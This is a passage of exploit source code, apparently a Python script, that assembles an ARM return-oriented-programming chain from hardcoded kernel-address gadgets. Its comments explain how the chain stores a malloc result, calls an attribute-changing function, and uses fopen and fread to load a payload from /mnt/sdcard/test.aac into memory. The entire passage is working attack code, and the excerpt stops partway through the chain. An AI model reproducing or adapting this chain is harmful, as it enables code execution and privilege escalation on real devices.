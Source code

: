 ```
# | 0xc00d2838 | c00d2838 | sub r1,r1,r6 | c00d283c  | blx r8 | 
# | 0xc008f514 | cpy r2,r10 | c008f518 | blx r7 | 

# store the malloc result somewhere safe if we need it again
# | 0xc0024820 | ldmia sp!,{r4,pc} |
rop_chain += p32(0xc0583f54) # r4
rop_chain += p32(0xc0485d38) # pc

# | 0xc0485d38 | c0485d38 | str r0,[r11,#-0x40] | c0485d3c  | blx r4 | 

# | 0xc0583f54 | ldmia sp!,{r4,r5,r6,r11,pc} | 
rop_chain += p32(0xc03edf0c) # r4
rop_chain += p32(0x00000c81) # r5 <- this is the last argument of the change attr function
rop_chain += p32(0xc00d2e78) # r6
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc0533030) # pc

# | 0xc0533030 | c0533030 | cpy r3,r5 | c0533034  | blx r6 | 
# | 0xc00d2e78 | c00d2e78 | cpy r5,r9 | c00d2e7c | blx r4 | 

# | 0xc03edf0c | c03edf0c | blx r5 | c03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
rop_chain += p32(0xc0473224) # r4
rop_chain += p32(0xc05c1dc9) # r5 <- ffs fopen was a thumb function
rop_chain += p32(0xc075ed50) # r6 
rop_chain += p32(0xc03adfec) # r7
rop_chain += p32(0xc05f92d0) # r8 
rop_chain += p32(0xc00a3594) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc00bad9c) # pc

## now we need to open a file, and load the bytes into the buffer (called file /mnt/sdcard/test.aac)
# to call fopen("/mnt/sdcard/test.aac", "rb")
# - c05f92d0 = "rb"
# - c075ed50 = "/mnt/sdcard/test.aac"
# - c05c1dc8 = fopen

# | 0xc00bad9c | cpy r0,r6 | c00bada0 | blx r9 |   
# | 0xc00a3594 | cpy r1,r8 | c00a3598 | blx r7 |
# | 0xc03adfec | cpy r3,r5 | c03adfec | blx r4 |  

# | 0xc0473224 | blx r3 | c0473228 | ldmia sp!,{r3,r4,r5,r6,r7,r8,r9,r10,r11,pc} | <- does the function call
rop_chain += p32(0xc0426d4c) # r3 
rop_chain += p32(payload_length) # r4 <- size of the read
rop_chain += p32(0xc05c20b5) # r5 <- address of fread (its thumb)
rop_chain += p32(0xc03edf0c) # r6
rop_chain += p32(0x00000001) # r7 <- 1
rop_chain += p32(0x00000000) # r8 
rop_chain += p32(0x00000000) # r9
rop_chain += p32(0xc08e4ee0 - 0xbc4) # r10 <- stored malloc'd buffer
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc040b604) # pc

# now our opened fd is in r0, need to call fread(allocated_buffer, 1, size, stream (what is in r0 atm))
# - c05c20b4 - address of fread

# | c040b604 | ldr r8,[r10,#0xbc4] | c040b608 | blx r3 |

# c0426d4c 00 30 a0 e1     cpy        r3,r0
# c0426d50 04 20 a0 e1     cpy        r2,r4
# c0426d54 07 10 a0 e1     cpy        r1,r7
```